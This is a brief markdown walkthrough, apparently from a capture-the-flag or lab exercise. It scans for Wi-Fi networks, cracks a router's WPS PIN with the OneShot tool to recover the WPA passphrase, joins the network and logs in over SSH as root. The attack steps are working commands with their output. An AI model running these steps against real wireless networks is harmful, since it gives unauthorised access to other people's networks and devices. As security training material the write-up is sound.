

____

```bash
iw dev wlan scan
```

## WPS Explotation

https://github.com/kimocoder/OneShot



```bash
python3 oneshot.py -i wlan0 -b 02:00:00:00:01:00 -K
```

```
[+] WPS PIN: '12345670'
[+] WPA PSK: 'NoWWEDoKnowWhaTisReal123!'
[+] AP SSID: 'plcrouter'
```

```bash
wpa_passphrase plcrouter NoWWEDoKnowWhaTisReal123! > config
```

```bash
wpa_supplicant -B -c config -i wlan0
```

```bash
ifconfig wlan0 192.168.1.68 netmask 255.255.255.0
```

```bash
ssh root@192.168.1.1
```
